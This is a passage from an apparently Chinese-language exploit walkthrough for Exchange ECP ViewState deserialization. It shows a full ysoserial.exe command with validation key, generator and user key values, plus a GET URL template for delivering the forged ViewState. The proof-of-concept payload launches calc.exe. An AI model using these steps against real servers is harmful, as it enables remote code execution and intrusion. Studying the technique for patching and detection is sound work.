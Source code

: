 `__VIEWSTATEGENERATOR`在`/ecp/default.aspx`的前端页面里面直接获取：

![image](img/9c4489d95c19c8dcf8662e33e54976e5.png)

当拥有了`validationkey`,`validationalg`,`viewstateuserkey`,`__VIEWSTATEGENERATOR`，使用YSoSerial.net生成序列化后的恶意的ViewState数据：

```
ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "calc.exe" --validationalg="SHA1" --validationkey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" --generator="B97B4E27" --viewstateuserkey="2fdc8b0d-dcfb-4d0a-b464-95b9a2dcc968" --isdebug –-islegacy 
```

![image](img/2f87f86aa687efbe5edcb947956d30c4.png)

构造以下URL，使用生成的payload替换 ，使用上面所说的value值替换 ，最后用GET请求发送给服务器即可。

```
http://www.0-sec.org/ecp/default.aspx?__VIEWSTATEGENERATOR=<generator>&__VIEWSTATE=<ViewState> 
```

![image](img/0dad50f8195c2645dd6d3f8271f2211d.png)
